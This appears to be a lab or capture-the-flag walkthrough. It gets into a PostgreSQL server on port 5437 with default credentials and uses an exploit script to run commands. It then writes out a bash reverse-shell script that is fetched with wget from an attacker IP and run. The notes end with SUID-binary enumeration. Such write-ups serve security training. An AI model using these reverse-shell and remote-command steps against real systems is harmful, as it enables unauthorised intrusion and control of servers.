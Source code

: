 
# 5437

Now we find postgres so trying login:
With postgres:postgres
```
psql -U postgres -W -h 192.168.212.47 -p 5437
```
Now checking version:
```
SELECT version();SD
```
![](attachment/a3cd592205326c1858506edd116aaa7e.png)

Now we can use an exploit for this version:
![](attachment/7aac33fec186c3dc6ba6a900b33d258d.png)
```
python3 postgres.py -i 192.168.212.47 -P postgres -U postgres -p 5437 -c whoami 
```

![](attachment/099f610db6ebc5c10a02af87841f47be.png)Now to get a shell:
shell.sh:
```
#!/bin/bash
bash -i >& /dev/tcp/192.168.45.236/445 0>&1
```
```
python3 postgres.py -i 192.168.212.47 -P postgres -U postgres -p 5437 -c 'wget http://192.168.45.236/shell.sh'

python3 postgres.py -i 192.168.212.47 -P postgres -U postgres -p 5437 -c 'bash shell.sh' 
```
Now we get a shell:
![](attachment/8672b2c73b4da464241cbe15dbed38cc.png)\\
Now running linpeas.

We dont fine anything.
Running manual enumeration to find SUID binaries:
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
![](attachment/a8a8f9715ecc31bb1a2994df88bca255.png)

